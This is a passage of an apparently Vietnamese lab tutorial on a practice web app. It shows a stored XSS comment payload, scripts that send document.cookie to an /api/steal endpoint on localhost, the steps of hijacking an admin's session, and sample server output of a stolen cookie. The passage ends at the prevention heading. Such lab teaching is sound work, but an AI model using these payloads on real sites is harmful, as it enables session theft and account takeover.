 ### Bước 6: Stored XSS Attack

**Mục tiêu**: Chèn script vào comment để tấn công những người xem sau

1. Đăng nhập với user1
2. Post comment với payload XSS:

```html
<script>
    alert(document.cookie);
</script>
```

3. Khi admin (hoặc user khác) vào xem comment → Script thực thi!

### Bước 7: Session Hijacking (Đánh Cắp Cookie)

**Payload để đánh cắp cookie**:

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```

**Hoặc với external server**:

```html
<script>
    document.location =
        "http://localhost:3000/api/steal?cookie=" + document.cookie;
</script>
```

**Quy trình tấn công**:

1. Attacker (user1) post comment với XSS payload
2. Admin vào xem comment
3. Script thực thi trên trình duyệt của admin
4. Cookie của admin được gửi đến `/api/steal`
5. Attacker xem log để lấy cookie admin
6. Attacker dùng cookie đó để giả mạo admin

### Bước 8: Xem Stolen Cookies

Sau khi admin vào xem comment, check console của server:

```bash
🚨 STOLEN COOKIE RECEIVED:
Timestamp: 2025-10-16T...
Cookie: auth=admin:admin123
IP: ::1
User-Agent: Mozilla/5.0...
```

Hoặc xem trong bảng comments (sẽ có entry `[HACKER-LOG]`)

## 🛡️ Cách Phòng Chống

